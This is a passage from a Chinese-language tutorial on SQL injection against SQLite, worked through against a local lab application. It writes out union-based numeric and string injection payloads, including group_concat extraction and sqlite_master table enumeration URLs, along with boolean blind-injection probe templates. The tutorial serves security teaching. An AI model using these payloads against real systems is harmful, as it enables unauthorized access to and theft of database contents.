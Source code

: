 我们可以使用group_concat函数来提取列中的完整数据。

```
http://127.0.0.1/sqlite-lab/index.php?snumber=1337 union SELECT 1,group_concat(OS,'~~'),3,4,5 FROM info
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0104791314e5aab162.png)

**2、基于联合查询的SQL注入(字符型)**

字符型的基于联合查询的SQL注入与数字型的并没有太大差别，唯一的区别在于，用户的数据将被放入SQL分割符之间，我们将需要逃逸引号、括号等分隔符的闭合。在漏洞应用程序中有一处字符型的基于联合查询的SQL注入，注入点如下：

```
http://127.0.0.1/sqlite-lab/index.php?tag=ubuntu
```

为了利用该SQL注入，只需要在payload前加上'并在结束前加上– -，举个例子，要获取表名需要用到如下payload:

```
' union select 1,2,3,4,5 FROM sqlite_master WHERE type IN('table','view') AND name NOT LIKE 'sqlite_%' -- -
```

Inject URL

```
http://127.0.0.1/sqlite-lab/index.php?tag=ubuntu' union select 1,2,3,4,5 FROM sqlite_master WHERE type IN ('table','view') AND name NOT LIKE 'sqlite_%' -- -
```

因此，字符型基于联合查询的SQL注入除了一点点调整以逃逸分隔符外，与数字型的并没有差别。

**3、布尔型SQL盲注**

在本节中我们将讨论SQL盲注技巧。基于联合查询的注入简单而直接，但盲注就比较需要时间和技巧了。在开始之前，先鉴别下注入点是字符型还是数字型的，如果注入点是数字型，那我们需要做的调整和payload将如以下所示。

```
paramater=value and 2 &lt; 3--
```

如果注入点是字符型的，那payload就长以下这样:

```
paramater=value' and 2 &lt; 3-- -
paramater=value) and 2 &lt; 3-- -
paramater=value') and 2 &lt; 3-- -
```

如果SQL注入是字符型的，只要将你的payload放置到闭合分割符和– -之间，假设我们用来探测的语句是:

```
paramater=value) and 2 &lt; 3-- -
```

那么，payload将被放置在value)和– -之间:

```
paramater=value) put_your_payload_here-- -
```
